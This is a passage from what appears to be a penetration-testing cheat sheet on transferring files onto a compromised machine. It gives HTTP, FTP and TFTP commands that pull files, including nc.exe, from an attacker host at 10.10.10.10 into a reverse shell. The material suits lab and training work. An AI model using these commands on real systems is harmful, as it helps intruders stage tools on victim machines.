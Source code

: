 ```
python -m SimpleHTTPServer 80

# In reverse shell - Linux
wget 10.10.10.10/file

# In reverse shell - Windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe','C:\Users\user\Desktop\file.exe')"
```

**FTP**

This process can be mundane, a quick tip would be to be to name the
filename as ‘file’ on your kali machine so that you don’t have to
re-write the script multiple names, you can then rename the file on
windows.


# In Kali
python -m pyftpdlib -p 21 -w

# In reverse shell
echo open 10.10.10.10 > ftp.txt
echo USER anonymous >> ftp.txt
echo ftp >> ftp.txt 
echo bin >> ftp.txt
echo GET file >> ftp.txt
echo bye >> ftp.txt

# Execute
ftp -v -n -s:ftp.txt
```

**TFTP**

Generic.


# In Kali
atftpd --daemon --port 69 /tftp

# In reverse shell
tftp -i 10.10.10.10 GET nc.exe
```

**VBS**

When FTP/TFTP fails you, this wget script in VBS was the go to on
Windows machines.
